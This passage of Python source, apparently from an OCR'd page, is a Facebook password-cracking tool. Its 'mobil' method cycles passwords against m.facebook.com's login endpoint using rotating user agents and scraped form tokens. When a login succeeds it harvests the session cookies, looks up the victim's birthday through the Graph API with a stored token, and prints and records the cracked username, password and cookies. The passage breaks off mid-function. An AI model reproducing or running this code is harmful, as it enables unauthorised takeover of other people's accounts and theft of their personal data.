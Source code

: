 			loop += 1
		except requests.exceptions.ConnectionError:
			jeda(1)
			loop += 1
			self.basic(user, manual, **data)
	
	# MOBILE
	def mobil(self, user, manual,**data):
		global ok,cp,loop
		warna = random.choice([M, H, K, B, U, O, P, J])
		sys.stdout.write('\r'+warna+'×\x1b[1;96m [crack] %s/%s [%sOK%s:%s%s%s]-[%sCP%s:%s%s%s]'%(loop,len(self.id),H,M,H,len(ok),O,K,M,K,len(cp),O)),
		sys.stdout.flush()
		try:
			for pw in manual:
				pw = pw.lower()
				ses = requests.Session()
				ua = random.choice(["Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]","Mozilla/5.0 (Linux; Android 4.4.4; en-au; SAMSUNG SM-N915G Build/KTU84P) AppleWebKit/537.36 (KTHML, like Gecko) Version/2.0 Chrome/34.0.1847.76 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 4.1.2; Nokia_X Build/JZO54K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.87.90 Mobile Safari/537.36 NokiaBrowser/1.0,gzip(gfe)","Mozilla/5.0 (Linux; U; Android 4.4.2; zh-CN; HUAWEI MT7-TL00 Build/HuaweiMT7-TL00) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/40.0.2214.89 UCBrowser/11.3.8.909 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 10; M2006C3MG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 7.0; SM-G930VC Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/58.0.3029.83 Mobile Safari/537.36"])
				headers_ = {"Host":"m.facebook.com","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
				p = ses.get('https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
				dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
				_headers = {"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 4.4.4; en-au; SAMSUNG SM-N915G Build/KTU84P) AppleWebKit/537.36 (KTHML, like Gecko) Version/2.0 Chrome/34.0.1847.76 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
				po = ses.post("https://m.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
				if 'c_user' in ses.cookies.get_dict():
					try:
						kukis=";".join([key+"="+value for key,value in ses.cookies.get_dict().items()])
						romz = open('data/token.txt', 'r').read()
						lahir = requests.get(f"https://graph.facebook.com/{user}?fields=birthday&access_token={romz}").json()['birthday']
						day, month, year = lahir.split('/')
						month = bulan12[month]
						print ('\r %s*———> %s ◊ %s ◊ %s %s %s ◊ %s '%(H,user,pw,day,month,year,kukis))
						#os.popen("play-audio dapet.mp3")
						ok.append("%s ◊ %s ◊ %s %s %s ◊ %s "%(user,pw,day,month,year,kukis))
